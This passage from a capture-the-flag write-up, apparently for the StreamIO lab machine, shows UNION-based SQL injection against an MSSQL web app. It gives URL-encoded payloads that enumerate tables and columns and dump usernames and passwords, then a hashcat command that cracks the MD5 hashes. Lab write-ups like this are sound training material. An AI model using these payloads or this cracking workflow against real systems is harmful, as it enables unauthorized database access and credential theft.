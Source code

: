 We discover a union select sql injection 

**From here on all payloads are URL encocded**

![91f40d1c2dccf0816da06054dd9eedec.png]({{ site.baseurl }}/images/91f40d1c2dccf0816da06054dd9eedec.png)

![c2a3935064dc76accc5cf8c823aea851.png]({{ site.baseurl }}/images/c2a3935064dc76accc5cf8c823aea851.png)

### Extracting data from MSSQL

Using the following payload we find the database's name that we are interacting with `10'+union+select+1,db_name(),2,3,4,5 --`  *STREAMIO*

We can then have a look at what tables are availiable to us, maybe we can find some creds.

![91106285856976352b502f0b839dab77.png]({{ site.baseurl }}/images/91106285856976352b502f0b839dab77.png)
*` 10' union select 1,table_name,2,3,4,5 FROM information_schema.tables -- `*

*[contents of information_schema.tables](https://www.mssqltips.com/sqlservertutorial/196/information-schema-tables/)*

We are then able to select from the users table, however we do not know what columns it has. We can try to guess, but the [portswigger SQLi cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) has another useful command for us to run.

`SELECT * FROM information_schema.columns WHERE table_name = 'users'`
*However since we have a union select vulnerability we can't just plainly select, so we are going to use the same trick as we used in the previous query*

![287a1b81c60310670df037a1d501f186.png]({{ site.baseurl }}/images/287a1b81c60310670df037a1d501f186.png)
We have now acquired the column names, now in order to extract them, we will have to use string concatenation. We can see that since the number 2 also prints with the query, *(Marked by green arrows)* then maybe we could use the second column. However when we try to replace "2" with a string the query fails to return, which means the second columns data type in the original query is not a string.

![fe275dcbc2b5e976537aeb75a005c567.png]({{ site.baseurl }}/images/fe275dcbc2b5e976537aeb75a005c567.png)

*The syntax for string concatenation in the portswigger cheatsheet did not work for me, so I used the MSSQL concat function* `10'+union+select+1,CONCAT(username,+'%3a',+password),2,3,4,5+FROM+users+--`

![32231b5a929b7580a88191312c884169.png]({{ site.baseurl }}/images/32231b5a929b7580a88191312c884169.png)

We got a bunch of passwords and hashes so I'm gonna download the response and grep them out

![7f4ee8ad8cb51848ab315a4bad542c09.png]({{ site.baseurl }}/images/7f4ee8ad8cb51848ab315a4bad542c09.png)

We can tell that it looks like md5 hashes, but if in doubt, use *hashid* from kali.

Now we crack them using hashcat  `hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt --username -o db_hashes_recovered.txt`

![592aeee1a72f02cb12b5a9549af4f4ae.png]({{ site.baseurl }}/images/592aeee1a72f02cb12b5a9549af4f4ae.png)

I then retrieved only the login and password using awk to test these credentials against `streamio.htb/login.php`
